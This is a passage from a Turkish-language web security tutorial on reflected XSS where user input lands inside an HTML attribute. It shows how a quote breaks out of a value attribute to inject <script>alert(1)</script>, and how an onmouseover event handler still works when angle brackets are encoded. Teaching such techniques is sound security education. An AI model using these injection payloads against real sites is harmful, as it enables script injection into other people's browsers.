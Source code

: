 Şimdi de şöyle bir yapıyı düşünelim. Kullanıcıdan gelen input’un bir attribute içerisinde olduğu anlar olabilir.

```
<html>
 <body>
   <form>
    <input name="keyword" value="İLKER">
   </form>
 </body>
</html>
```

Burada basitçe “*<script>alert(1)</script>*” verdiğimizde XSS çalışmayacaktır. Çünkü vereceğiniz bu değer value içerisinde kalacağı için script çalışmaz. Buranın dışına çıkma gerekir. Bakış açısı bu yüzden çok önemlidir.

```
<html>
 <body>
   <form>
    <input name="keyword" value="<script>alert(1)</script>">
    <input name="keyword" value='<script>alert(1)</script>'>
   </form>
 </body>
</html>
```

Öncelikle bu attribute içerisinden çıkmanız gerekmektedir. Öncelikle bir “ (çift tırnak) işareti koyarak attribute tanımını bitirmelisiniz. Bitirdikten sonra yeni bir attribute tanımlama alanına girersiniz. Yani saldırı kodunuz artık bu şekilde olmalı:

```
www.x.com/?keyword="><script>alert(1)</script>
```

Burada attribute tanımını bitirip içerisinden çıkarak script çalıştırabilirsiniz ancak yazılımcı burada kullandığınız özel karakterleri encode ettiğinde payload’ınız bu kez de çalışmayacaktır.

```
<html>
 <body>
   <form>
    <input name="keyword" value=" "&gt;&lt;script&gt;alert(1)&lt/script&gt">
    <input name="keyword" value="İLKER">
   </form>
 </body>
</html>
```

Burada artık yeni bir tag’e ihtiyacınız yoktur. Bir önceki attribute’dan kaçtığınız anda yeni bir attribute tanımlayabilirsiniz. Örneğin yukarıdaki örnekte input alanına ***“ onmouseover=”a*** yazarsanız ilk çift tırnak önceki attribute’u kapatır, daha sonra yeni bir attribute tanımlarsınız ve sonra kalan ***“>*** işaretleri de yeni oluşturduğunuz attribute’u tamamlar.

```
<html>
 <body>
   <form>
    <input name="keyword" value=" " onmouseover="a">
    <input name="keyword" value="İLKER">
   </form>
 </body>
</html>
```
